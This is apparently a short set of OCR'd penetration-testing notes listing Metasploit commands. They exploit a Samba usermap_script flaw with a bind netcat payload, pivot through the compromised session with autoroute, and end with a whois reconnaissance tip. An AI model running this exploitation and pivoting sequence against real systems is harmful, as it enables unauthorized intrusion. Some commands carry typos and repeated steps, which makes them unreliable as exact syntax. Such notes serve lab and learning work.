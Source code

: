 `use post/windows/manage/autoroute`

set subnet of target network

`set subnet <subnet>`

set session id

`set session <id>`

exploit

`exploit`

start running commands

`use exploit/multi/samba/usermap_script`

`show options`

`set RHOST <ip of the target>`

`show payloads`

`set PAYLOAD cmd/unix/bind_metcat`

`shows options`

`exploit`

this exploit will timeout as our attacker can not see this ip, the following two commands will show us the info of the hacked machine

`sessions -i <session id>`

`ifconfig`

`background`

`use post/windows/manage/autoroute`

to see all the manage modules , run the following

`use post/windows/manage[press double tab]`

`show options`

`set session <id>`

`set subnet <subnet- ip of the target with .0 as the fourth subsection of the ip>`

`exploit`

`use exploit/multi/samba/usermap_script`

`show options`

`exploit`

### whois lookup 

go to whois.domaintools.com lookup website to gather information, find info about the owner of the target
